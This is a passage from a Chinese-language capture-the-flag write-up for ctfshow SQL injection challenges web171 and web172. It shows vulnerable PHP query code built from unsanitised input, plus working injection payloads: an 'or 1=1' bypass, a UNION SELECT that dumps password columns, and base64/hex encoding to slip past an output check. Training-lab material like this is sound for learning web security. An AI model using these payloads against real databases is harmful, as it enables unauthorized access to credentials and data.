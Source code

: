 万能密码，输出了所有数据

```
1' or 1=1 --+
```

### 方法三

```
 -1' or username = 'flag
```

拼接后的 sql 语句为

```
$sql = "select username,password from user where username !='flag' and id = ' -1' or username = 'flag' limit 1;";
```

## web172

### 题目

查询语句

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

返回逻辑

```
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }    
```

### 方法一

让返回的结果中不能有 flag 即可，可以使用编码

```
-1' union select to_base64(username),hex(password) from ctfshow_user2 --+
```

### 方法二

由于屏蔽的是username,所以只需找出password即可get flag 

```
-1' union select 1,password from ctfshow_user2--+
```

## web173
